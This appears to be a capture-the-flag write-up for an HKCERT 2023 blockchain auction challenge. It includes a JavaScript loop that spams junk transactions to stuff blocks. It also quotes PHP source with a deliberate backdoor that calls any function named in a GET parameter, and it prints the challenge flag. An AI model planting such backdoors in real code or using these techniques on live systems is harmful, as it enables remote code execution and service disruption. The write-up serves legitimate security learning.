 # Auction with blockchain \(R\) (200 point, 2 solves, ★★☆☆☆) [First blood 🩸]
---
Solved by: Kaiziron

Team: O0159 - Black Bacon


### Description :
```
It is EIP-1559 era now, can you still perform the "Block Stuffing Attack" efficiently? ... or not?

Web: http://chal-a.hkcert23.pwnable.hk:28306 , http://chal-b.hkcert23.pwnable.hk:28306
```
---
### Solution : 

Although the description mentioned EIP-1559, the simulated blockchain in the challenge is quite simple and has nothing related to it, it is just a distraction

The challenge looks identical to last year's blockchain auction challenge

![](https://i.imgur.com/9n1Y8dX.png)

No bidders will bid for garlic chives, but they will bid for CTF Flag. There will be at least one whale who have more AKA tokens than our wallet and place a higher bid than we can for CTF Flag and win the flag

Last year, I solved this challenge with block stuffing to use up all space of a block by spamming junk transactions after my first bid, so other bidders can't have their transactions included in a block before the auction end

I tried my solution for last year in this year's challenge, and it works

```js
count = 1
bidValue = 1
async function junk() {
    n = 2
    gas = 4
    a = parseInt(Math.max(0,bidValue)).toString(16).padStart(4,"0");
    txdata.value = u.innerText+String(n).padStart(4,"0")+a;
    nonce.value = Array.from(crypto.getRandomValues(new Uint8Array(16))).map(b=>b.toString(16).padStart(2,"0")).join("");
    metumusk.style.display = "block";
    alldata.value = String(txdata.value) + String(gas).padStart(4,"0") + String(nonce.value);
    signature.value = await digestMessage(alldata.value);
    alldatas.value = String(alldata.value) + String(signature.value);

    sendtx()
    console.log(bidValue, count)
    count += 1
}
setInterval(junk, 200)
```

![](https://i.imgur.com/ThsqNgK.png)

But it gives last year's flag, so I'm thinking if they deployed the wrong challenge


Then I opened a ticket and ask about it, but they replied that it's intended

![](https://i.imgur.com/RE1DbPN.png)

Last year, we do not know about the course of this challenge and we have no idea what's actually going on in the backend of this simulated blockchain

This year, the source is also not given. But last year's challenges are all in the hkcert-ctf-2022-cahllenges github repo, and I found the source of it. So I tried to understand the code and see if there's anything changed this year

But then I noticed this weird looking line of code :


https://github.com/blackb6a/hkcert-ctf-2022-challenges/blob/main/18-auction-blockchain/env/abc/src/index.php#L87

```php
    if($info["time"] >= 180){
        if($info["items"][1]["top_bid"] == 0){
            $egmsg .= "No one won the Garlic Chives.\n";
        }else{
            $egmsg .= "0x".$info["items"][1]["top_bidder"]."... won the Garlic Chives with bid ".$info["items"][1]["top_bid"].".\n";
            if($info["items"][1]["top_bidder"] == substr($_SESSION["user"],0,16)){
                $egmsg .= "You got a useless NFT. You were harvested by crypto-farmers.\n";
                $_GET["info"]?$_GET["info"]($_GET[$_GET["info"]]):$_GET["info"];
            }
        }
        $egmsg .= "0x".$info["items"][2]["top_bidder"]."... won the CTF Flag with bid ".$info["items"][2]["top_bid"].".\n";
        if($info["items"][2]["top_bidder"] == substr($_SESSION["user"],0,16)){ //yeah it looks buggy but who cares...
            $egmsg .= "You got an NFT going to the MOON! And here is your reward:\n";
            include_once("flag.php");
            $egmsg .= $flag;
        }
    }
    $info["endgame"] = $egmsg;
```

There is a backdoor if we win the auction for the useless NFT :
```php
$_GET["info"]?$_GET["info"]($_GET[$_GET["info"]]):$_GET["info"];
```

So, just bid on the useless NFT and wait for the auction end, as all other bidders are bidding for the 2022 CTF flag, there is no one bidding for the useless NFT. Then just exploit the backdoor to get the flag

![](https://i.imgur.com/jILIW1C.png)

![](https://i.imgur.com/HsaQa9y.png)

### Flag :

```
hkcert23{how2StuffChivesAttack_JustPay1nEther_0rn0t}
```
